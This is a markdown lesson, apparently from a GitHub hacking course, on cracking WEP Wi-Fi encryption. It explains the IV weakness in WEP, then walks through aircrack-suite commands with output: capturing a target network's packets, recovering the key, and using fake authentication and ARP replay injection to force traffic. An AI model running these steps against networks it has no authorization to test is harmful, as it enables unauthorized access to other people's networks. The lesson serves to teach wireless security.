


# Network Hacking - Gaining Access WEP Cracking

<!-- TOC -->
- [Network Hacking - Gaining Access WEP Cracking](#network-hacking---gaining-access-wep-cracking)
  - [Theory behing cracking WEP Encryption](#theory-behing-cracking-wep-encryption)
  - [WEP Capturing Basics](#wep-capturing-basics)
  - [Fake Authentication Attack](#fake-authentication-attack)
    - [ARP Request Replay Attack](#arp-request-replay-attack)
    - [Path](#path)

---



- Everything we did so for now didn't require us to have access/connection to the network.
- Now, once we connect to the network, we can not only start to see the data being transmitted, but we can also start to manipulate it.

---

## Theory behing cracking WEP Encryption

- WEP stands for Wired Equivalent Privacy.
- It is an older security protocol designed to provide a wireless local area network (WLAN) with a level of security and privacy comparable to what is usually expected of a wired LAN.
- It uses RC4 algorithm for encryption.
- It is still used in some older netowrks, and can be cracked in a matter of minutes.




- So, how it basically works is if a Client wants to send something to the router, let's say some kind of text data, it will encrypt this using a key. Therefore this normal text will be converted into gebrish.
- This encrypted packet will be sent in the air, so if a hacker captures this packet it will completely appear as gibberish to him, even though it contians some useful information.
- The access point will recieve this encrypted packet, and it will decrypt it using the same key that was used to encrypt it. And, hence the router will be able to read the original text data.
- The same happens if the router wants to send something to the client, it will first encrypt it using a key, send it to the client, and the client will be able to decrypt it because it has the key. So, the concept is always the same, the transmitter encrypts the data using a key, and the receiver decrypts it using the same key.

- So, than where's the vulenrability? The way RC4 alogirthm works is actually fine, the problem is with the way WEP implements this algorithm.

- To understand this better let's zoom in to the process deeply:

  - So, going back to the first step we have client trying to send some data to the router. Let's keep the assumption that the data sent is a text message.
  - In order to encrypt this, WEP tries to generate a unique key for each packet. So, literally each packet sent into the air, it tries to create a unique key for it.
  - To do that, it generates a 24 bit random number called an Initialization Vector (IV). The IV is than added to the password of the network. This generates a key stream, and than this key stream is used to encrypt the packet, and transform it into gebrish.
  - But, before sending this into the air, WEP will also append the IV to the packet. The reason why it does so is so that once the router recieves the packet, it needs to be able to decrypt it, and to do so it need the key and the IV. But, the router already has the key no need to send that, therefore we just need to send the IV.
  - So, when the router recieves the packet, it has the IV, it has the password, so it can generate the key stream, and than use it to transform the gebrish data into it's orignal form, and read the packet.

    ```mermaid
    sequenceDiagram
        participant Client as Client
        participant Air as Wireless Transmission
        participant Router as Router

        Client->>Client: Prepare Text Message
        Client->>Client: Generate 24-bit IV
        Client->>Client: Combine IV + Password → Key Stream
        Client->>Client: Encrypt Text Message with Key Stream → Ciphertext
        Client->>Client: Append IV to Ciphertext
        Client->>Air: Send [IV + Ciphertext] over air
        Air->>Router: Deliver [IV + Ciphertext]
        Router->>Router: Extract IV from Packet
        Router->>Router: Combine IV + Password → Key Stream
        Router->>Router: Decrypt Ciphertext with Key Stream → Original Text
        Router->>Router: Read Original Text
    ```

- Now, I guess we can see the problem here. The IV is only 24 bits long, which means it can only have 2^24 different values, which is around 16 million values. This means that if we send enough packets, we will eventually start to repeat the IVs.
- IVs are really short only 24bits, that too sent in plain text.
- If, we are on a busy network IVs will repeat, this makes WEP vulnerable to statistical attacks.
- Repeated IVs let's you easily determine the key stream used to encrypt the data, and break the encryption.

    ```mermaid
    flowchart LR
        IV["IV - 24 bits"] --> WEP["WEP Packet"]
        Data["Encrypted Data / Ciphertext"] --> WEP
        ICV["ICV - Integrity Check Value, 32 bits"] --> WEP
    ```

## WEP Capturing Basics

- In order to crack WEP, we need to capture large number of packets from the network.
- Analyze the captured packets using `aircrack-ng` to find the key.
- First use the command `airodump-ng` to see the available networks and clients.

    ```bash
    airodump-ng wlan0 --band abg
    ```

- Once, listed look for the network with WEP Encryption, and note down the BSSID (MAC address of the access point) and the channel it is on.
- One of the key requirements for this attack to be succesfull is this must be a busy network, so that we can capture enough packets.

>[!WARNING]
> If the network is idle the process can be a little more complex, and may require you to use some other techniques like ARP request replay attack, or fake authentication attack to generate more traffic.

- Copy the BSSID and channel of the `target network` using `WEP` encryption.
- Now, we can start capturing packets using `airodump-ng` command.

    ```bash
    root@kali:~# airodump-ng --bssid <BSSID> -c <channel> -w capture wlan0
    ```
    The Output will look something like this:

    ```bash
    root@kali:~# airodump-ng --bssid MAC_WIFI -c 36 -w capture wlan0
    06:12:59  Created capture file "capture-01.cap".


    CH 36 ][ Elapsed: 4 hours 31 mins ][ 2025-07-27 10:44 

    BSSID              PWR RXQ  Beacons    #Data, #/s  CH   MB   ENC CIPHER  

    MAC_WIFI  -20   0   131951    22978  127  36   54e  WEP  WEP    

    BSSID              STATION            PWR   Rate    Lost    Frames  Notes
    Quitting...
    ```

>[!NOTE]
>Wait for some time to capture enough packets, the number of packets should be `at least 1000000`, anything less than that may not be enough to crack the WEP key.

- Now, we will run `aircrack-ng` command to crack the WEP key against the `.cap` file we just created.

    ```bash
    root@kali:~# aircrack-ng capture-01.cap
    ```

- You will see the output similar to this:

    ```bash
    root@kali:~# aircrack-ng capture-01.cap(20480) FE(20480) 50(19712) 
    Reading packets, please wait...9712) 76(19712) 77(19712) 7B(19456) 
    Opening capture-01.cap
    Read 11636874 packets.
    Got 16695 out of 15000 IVsStarting PTW attack with 16695 ivs.ID              ESSID                     Encryption

    1  WIFI_MAC  WIFI_NAME       WEP (16695 IVs)

    Choosing first network as target.

    Reading packets, please wait...
    Opening capture-01.cap
    Read 11636874 packets.

    1 potential targets

    Attack will be restarted every 5000 captured ivs.


                                Aircrack-ng 1.7 

                                Aircrack-ng 1.7 
                [00:00:00] Tested 1244161 keys (got 14262 IVs)
                                Aircrack-ng 1.7 
    KB    depth[00:00:00] Tested 1526401 keys (got 14262 IVs)
        0    7/  8   DB(18944) 1Aircrack-ng 1.7 2) F4(17920) 58(17664) 
    KB    depth[00:00:00] Tested 1666401 keys (got 14262 IVs)
        0    7/  8   DB(18944) 1Aircrack-ng 1.7 2) F4(17920) 58(17664) 
    KB    depth[00:00:01] Tested 1048577 keys (got 16695 IVs)
        0    5/  8   6D(19456) 3Aircrack-ng 1.7 4) 19(18432) 2C(18432) 
    KB    depth[00:00:01] Tested 1376257 keys (got 16695 IVs)
        0    1/  2   B8(22784) 5Aircrack-ng 1.7 6) 6D(22016) 10(21760) 
    KB    depth[00:00:02] Tested 2686977 keys (got 16695 IVs)
        0    0/  2   29(22784) BAircrack-ng 1.7 2) 2A(22016) 6D(22016) 
    KB    depth[00:38:38] Tested 1179649 keys (got 17411 IVs)
        0    0/  2   29(227Got 2Aircrack-ng 1.7 0 IVsStarting PTW attack with 2000KB    depth[00:38:38] Tested 1441793 keys (got 17411 IVs)
        0    0/  2   2A(24064) 5Aircrack-ng 1.7 4) 3A(22784) F2(22784) 
    KB    depth[00:38:38] Tested 1441793 keys (got 17411 IVs)
        0    0/  1   2A(24064) 5F(23808) 29(22784) 3A(22784) F2(22784) 
    KB    depth[00:38:38] Tested 6006 keys (got 17411 IVs)
        0    0/  1   2A(24064) 5F(23808) 29(22784) 3A(22784) F2(22784) 
    KB    depth   byte(vote)F5(22784) 94(22528) 3A(22272) 10(22016) 
        0    0/ 16   2A(24064) 5F(23808) 29(22784) 3A(22784) F2(22784) 
        1   16/ 18   E4(20736) 76(20480) 84(20480) AC(20480) BB(20480) 
        2   10/ 11   71(21760) AB(20992) BD(20992) BE(20992) 21(20736) 
        3    0/  2   4B(28160) 46(25344) 9B(24576) 72(24064) F0(23552) 
        4    0/  1   4D(26624) 8A(22784) 09(22528) 7B(22528) 1B(22016) 

                        KEY FOUND! [ 2A:4C:71:4B:4D ] (ASCII: *LqKM )
        Decrypted correctly: 100%
    ...

- We can now use `2A:4C:71:4B:4D` or `*LqKM` to connect to the network.

- To use `XX:XX:XX:XX:XX:XX` remove the colons and use it as the password to connect to the network.

- **Proof, this image will take you to the video where you can see me enter hex password on mobile device and connect to the network:**

    [](https://youtu.be/sLQRBuHkpw4)

## Fake Authentication Attack

- Now, let's work on the issue of idle networks. Let's say the target network is not busy enough, and we are not able to capture enough packets to crack the WEP key.
- One solution is either we have to wait long enough to capture enough packets, or we can force AP(Access Point) to generate new IVs.
- Now, before doing this we need to associate with this network. So, what I mean by associate is we need to tell this network that we want to communuicate with it, because by default access points ignore any requests that they get unless the device has connected to the network, or associated with it. Remember, we are not connected to the network yet, we are just trying to associate with it.

- First start by running `airodump-ng` command on the target network to see the clients connected to it.

    ```bash
    root@kali:~# airodump-ng --bssid <BSSID> -c <channel> --write capture wlan0
    ```

- Now, to associate to this network we will use a program called `aireplay-ng`. This program is used to inject packets into the network, and it can also be used to associate with the network.

- For sending the association request we will use the following command:

    ```bash
    root@kali:~# aireplay-ng --fakeauth 0 -a <BSSID> -h <MAC_ADDRESS_OF_HACKERS_ADAPTER> wlan0
    ```

>[!IMPORTANT]
> The first 12 characters of the `unspec` is the MAC Address of the hacker's adapter, obtained by using the command `ifconfig`.

- Replace the `-` with `:` in the MAC address, and use it as the `-h` parameter.

- As soon as we run this command, the `auth` will show as `OPN` in the `airodump-ng` output, which means we have successfully associated with the network. And, there will be a new client associated with the network, which is us.

  So, now we are associated with the network, and if we send anything, it's going to accept it, and communicate with us. But, we are not connected to the network yet, we are just associated with it.

### ARP Request Replay Attack

- Now, that we are associated with the network, we can start communicating with it, without getting ignored. So, now we can go and, start injecting packets into the traffic to force the access point to generate new IVs.

- This will increase the data really really quickly allowing us to capture enough packets to crack the WEP key.

- There are many ways to do this, but one of the most common ways is to use ARP request replay attack, which is the most reliable way to generate traffic on the network.

- The idea behind this method is to wait for an ARP Packet.

>[!IMPORTANT]
> ARP stands for Address Resolution Protocol, and it is used to map IP addresses to MAC addresses. It is used to resolve the MAC address of a device on the network, given its IP address.

- Once, this packet is sent to the network, we are going to capture it, and retransmit it. Once, we do this, the router is forced to generate a new packet with new IV.

- By repeating this process, we will be forcing the router to contnuously generate new packets with new IVs. Than once we have enough packets, we can crack the WEP key.

- We can do this attack using the command:

    ```bash
    root@kali:~# aireplay-ng --arpreplay -b <BSSID> -h <MAC_ADDRESS_OF_HACKERS_ADAPTER> wlan0
    ```

    The output will look like this:

    ```
    [TIME] Waiting for beacon frame (BSSID: <BSSID>) on chanbel <channel>
    Saving ARP requests in file: something.cap
    You should also start airodump-ng to capture replies.
    Read XXXXXX packets (got XXXXX ARP requests and XXX ACKs), sent XXXX Packers...(XXX pps)
    ```

    Actual output looks like this:

    ```bash
    root@kali:~# aireplay-ng --arpreplay -b WIFI_MAC -h WIRELESS_ADAPTER_MAC  wlan0
    06:07:29  Waiting for beacon frame (BSSID: WIFI_MAC) on channel 36
    Saving ARP requests in replay_arp-0727-060729.cap
    You should also start airodump-ng to capture replies.
    Read 0 packets (got 0 ARP requests and 0 ACKs), sen
    Read 2 packets (got 0 ARP requests and 0 ACKs), sen
    Read 23 packets (got 0 ARP requests and 0 ACKs), se
    Read 33 packets (got 0 ARP requests and 2 ACKs), se
    Read 37 packets (got 0 ARP requests and 2 ACKs), se
    Read 48 packets (got 0 ARP requests and 2 ACKs), se
    Read 49 packets (got 0 ARP requests and 2 ACKs), se
    Read 55 packets (got 0 ARP requests and 2 ACKs), se
    ```

- `-b` is the BSSID of the target network, and `-h` is the MAC address of the hacker's adapter.

---

### Path

<- [Previous Lesson: Network Hacking - Pre Connection Attacks](./lesson-02.md)  |  [Next Lesson: Network Hacking - Gaining Access - WPA/WPA2 Cracking](./lesson-04.md) ->